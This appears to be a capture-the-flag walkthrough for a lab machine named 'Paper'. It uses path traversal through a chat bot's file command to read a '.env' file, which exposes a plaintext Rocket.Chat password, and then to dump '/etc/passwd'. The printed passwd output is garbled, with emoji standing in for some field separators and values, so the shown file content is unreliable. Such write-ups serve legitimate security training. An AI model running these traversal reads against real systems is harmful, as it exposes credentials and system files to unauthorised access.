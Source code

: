 From google search we see that the configuration is done on a file called `.env` which we can also see on the directory.

--------------

## Task 6

What is the password obtained from that configuration information?

Let's open the `.env` file.

```sh
recyclops file ../hubot/.env

- <!=====Contents of file ../hubot/.env=====>
    
- export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
    
- <!=====End of file ../hubot/.env=====>
```

Here we see the password `Queenofblad3s!23`.

--------------

## Task 7

Which regular user with a home directory exists on Paper other than `rocketchat`?

Let's read the `/etc/passwd` file.

```sh
recyclops file ../../../../../../etc/passwd

- <!=====Contents of file ../../../../../../etc/passwd=====>
    
- root❌0:0:root:/root:/bin/bash  
    bin❌1:1:bin:/bin:/sbin/nologin  
    daemon❌2:2:daemon:/sbin:/sbin/nologin  
    adm❌3:4:adm:/var/adm:/sbin/nologin  
    lp❌4:7:lp:/var/spool/lpd:/sbin/nologin  
    sync❌5:0:sync:/sbin:/bin/sync  
    shutdown❌6:0:shutdown:/sbin:/sbin/shutdown  
    halt❌7:0:halt:/sbin:/sbin/halt  
    mail❌8:12:mail:/var/spool/mail:/sbin/nologin  
    operator❌11:0:operator:/root:/sbin/nologin  
    games❌12💯games:/usr/games:/sbin/nologin  
    ftp❌14:50:FTP User:/var/ftp:/sbin/nologin  
    nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin  
    dbus❌81:81:System message bus:/:/sbin/nologin  
    systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin  
    systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin  
    tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin  
    polkitd❌998:996:User for polkitd:/:/sbin/nologin  
    geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin  
    rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin  
    qemu❌107:107:qemu user:/:/sbin/nologin  
    apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin  
```